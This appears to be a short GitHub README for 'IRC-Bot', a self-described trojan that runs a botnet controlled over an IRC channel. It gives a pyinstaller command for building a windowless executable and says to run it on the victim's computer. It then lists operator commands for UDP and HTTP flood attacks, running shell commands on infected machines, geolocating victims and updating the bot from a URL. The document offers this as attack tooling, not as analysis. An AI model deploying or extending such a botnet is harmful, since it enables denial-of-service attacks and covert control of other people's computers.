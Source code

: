 ## What is IRC-Bot
	IRC-Bot is a trojans that use irc channel easy to control botnet.

## What can IRC-Bot do
    DDoS, Learn IRC protocol

## How to use IRC-Bot

1. make irc-botnet executable
```bash
pyinstaller --noconsole -F awesome.py
```

2. run in the victim computer

3. use irssi join the channel(your own), then you can send the following instructions.
```bash
    .udp1 ip port duration     # simple udp flood
    .udp2 ip port duration packet_size interval     # udp flood
    .cc1 url duration          # simple cc attack
    .cc2 url duration interval  # cc attack
    .cmd lin-xxx ls -al         # make special computer run cmd
    .geo lin-xxx                # get special location
    .reload url                 # update irc-bot
```